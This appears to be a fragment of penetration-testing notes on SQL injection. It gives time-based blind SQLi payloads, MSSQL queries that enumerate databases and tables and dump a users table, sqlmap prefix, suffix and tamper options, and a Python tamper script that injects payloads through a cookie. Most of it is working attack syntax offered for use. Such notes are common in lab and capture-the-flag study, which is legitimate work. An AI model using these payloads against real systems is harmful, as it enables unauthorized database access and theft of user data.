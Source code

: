 When you see less then 32 chars, the output is finised and you can set `limit 0,1` to `limit 1,1` and so on `limit 2,1`

## Blind SQLi

5 sec to retrieve the response:

- `and sleep(5)#`

`length(database())=X` count up until the output

- `and length(database())=4#`

# MSSQL

---

Get Version:

- `-q "SELECT @@Version"`

Get Current Database:

- `-q "SELECT DB_NAME() AS [Current Database]"`

Get All Database Names:

- `-q "SELECT name FROM sys.databases"`
- `-q "Select name from sysdatabases"`
- `-q "SELECT name FROM master.dbo.sysdatabases"`

Get All Table Names:

- `-q "SELECT table_name from core_app.INFORMATION_SCHEMA.TABLES"`

Get All Content from Table:

- `-q "SELECT * from [core_app].[dbo].tbl_users"`

# SQLMAP

---

See request:

- `-v 4`

Prefix and Suffix:

- `--prefix="' union select 1," --suffix=',3-- -'`

Add script:

- `--tamper script.py`

Injection cookie:

```python
import urllib.parse

def tamper(payload, **kwargs):
    cookies = '{"x'+payload+'":"99"}'
    cookies = urllib.parse.quote(cookies)
    return cookies%
```
